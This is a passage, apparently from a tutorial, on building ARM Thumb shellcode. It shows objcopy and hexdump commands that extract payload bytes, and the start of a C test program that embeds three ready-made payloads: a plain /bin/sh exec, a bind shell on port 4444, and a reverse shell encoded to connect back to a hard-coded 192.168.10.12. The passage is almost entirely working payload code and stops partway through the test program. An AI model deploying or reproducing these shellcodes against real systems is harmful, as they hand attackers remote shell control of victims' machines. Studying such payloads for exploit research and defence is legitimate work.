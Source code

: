Extract the shellcode for later.

```
$ objcopy -O binary bindshell.o bindshell.bin

$ hexdump -v -e '"\\\x" 1/1 "%02x"' bindshell.bin ; echo
\x01\x10\x8f\xe2\x11\xff\x2f\xe1\x13\xa0\x52\x40\x42\x70\x42\x60\xc2\x73\x02\x20\x01\x21\xc8\x27\x51\x37\x01\xdf\x04\x1c\x0e\xa1\x10\x22\x01\x37\x01\xdf\x20\x1c\x01\x21\x02\x37\x01\xdf\x20\x1c\x49\x40\x52\x40\x01\x37\x01\xdf\x04\x1c\x20\x1c\x49\x40\x3f\x27\x01\xdf\x20\x1c\x01\x21\x01\xdf\x20\x1c\x02\x21\x01\xdf\x04\xa0\x49\x40\x52\x40\x0b\x27\x01\xdf\x02\xff\x11\x5c\xff\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x41


```

And finally a short test program to verify the shellcode can run from the stack

```
#include <stdio.h>
#include <string.h>

// #define SIMPLE_SHELL
// #define REVERSE_SHELL
#define BIND_SHELL

#if defined(SIMPLE_SHELL)

char *shellcode =
"\x01\x10\x8f\xe2\x11\xff\x2f\xe1"
"\x02\xa0\x49\x40\x52\x40\x0b\x27"
"\x01\xdf\x41\x41\x2f\x62\x69\x6e"
"\x2f\x73\x68";

#elif defined(REVERSE_SHELL)

char *shellcode =
"\x01\x10\x8f\xe2\x11\xff\x2f\xe1"
"\x0e\xa0\x52\x40\x42\x70\xc2\x73"
"\x02\x20\x01\x21\xc8\x27\x51\x37"
"\x01\xdf\x04\x1c\x20\x1c\x09\xa1"
"\x10\x22\x02\x37\x01\xdf\x20\x1c"
"\x49\x40\x3f\x27\x01\xdf\x20\x1c"
"\x01\x21\x01\xdf\x20\x1c\x02\x21"
"\x01\xdf\x04\xa0\x49\x40\x52\x40"
"\x0b\x27\x01\xdf\x02\xff\x11\x5c"
"\xc0\xa8\x0a\x0c\x2f\x62\x69\x6e"
"\x2f\x73\x68\x41";

#elif defined(BIND_SHELL)

char *shellcode =
"\x01\x10\x8f\xe2\x11\xff\x2f\xe1"
"\x13\xa0\x52\x40\x42\x70\x42\x60"
"\xc2\x73\x02\x20\x01\x21\xc8\x27"
"\x51\x37\x01\xdf\x04\x1c\x0e\xa1"
"\x10\x22\x01\x37\x01\xdf\x20\x1c"
"\x01\x21\x02\x37\x01\xdf\x20\x1c"
"\x49\x40\x52\x40\x01\x37\x01\xdf"
"\x04\x1c\x20\x1c\x49\x40\x3f\x27"
"\x01\xdf\x20\x1c\x01\x21\x01\xdf"
"\x20\x1c\x02\x21\x01\xdf\x04\xa0"
"\x49\x40\x52\x40\x0b\x27\x01\xdf"
"\x02\xff\x11\x5c\xff\xff\xff\xff"
"\x2f\x62\x69\x6e\x2f\x73\x68\x41";

```